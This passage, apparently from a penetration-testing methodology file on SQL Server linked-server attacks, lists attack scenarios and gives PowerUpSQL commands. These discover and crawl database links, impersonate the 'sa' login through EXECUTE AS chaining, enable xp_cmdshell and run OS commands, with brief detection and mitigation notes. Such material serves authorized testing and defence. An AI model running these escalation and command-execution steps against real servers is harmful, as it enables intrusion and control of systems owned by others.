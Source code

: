 ```powershell
Write-Host "Impact: Administrative access to target instances" -ForegroundColor White

Write-Host "`n🎯 SCENARIO 3: COMMAND EXECUTION" -ForegroundColor Yellow
Write-Host "Objective: Execute OS commands on remote systems" -ForegroundColor White
Write-Host "Method: Enable xp_cmdshell and execute commands via links" -ForegroundColor White
Write-Host "Impact: Full control of target systems" -ForegroundColor White

Write-Host "`n🎯 SCENARIO 4: DATA EXFILTRATION" -ForegroundColor Yellow
Write-Host "Objective: Extract sensitive data from linked databases" -ForegroundColor White
Write-Host "Method: Query data across database links" -ForegroundColor White
Write-Host "Impact: Access to sensitive information" -ForegroundColor White

Write-Host "`n📊 RISK ASSESSMENT:" -ForegroundColor Yellow
Write-Host "Risk Level: HIGH - Enables lateral movement and privilege escalation" -ForegroundColor Red
Write-Host "Attack Vector: Database link exploitation and command execution" -ForegroundColor Red
Write-Host "Detection: Monitor for unusual database link usage and command execution" -ForegroundColor Yellow
Write-Host "Mitigation: Limit database link privileges and monitor usage" -ForegroundColor Green
```

---

## ⚔️ Execution

### Linked Servers + Impersonation + xp_cmdshell
```powershell
# Discover links
Get-SQLServerLink -Instance server\inst -Verbose

# Crawl links
Get-SQLServerLinkCrawl -Instance server\inst -Verbose

# Escalate via EXECUTE AS chaining and enable xp_cmdshell if permitted
Get-SQLServerLinkCrawl -Instance server\inst -Query "EXECUTE AS LOGIN='dbuser'; EXECUTE AS LOGIN='sa'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'whoami'"
```
- See full workflows earlier in this file. Detection: monitor rpcout/xp_cmdshell enablement.

---

[Prev: 27_AD_CS_Enumeration.md](./27_AD_CS_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 29_LDAP_Injection.md](./29_LDAP_Injection.md)

---

## 🎯 **COMPREHENSIVE SQL SERVER COMMAND REFERENCE (20+ Commands)**

### **1. Native Windows SQL Server Commands (sqlcmd)**
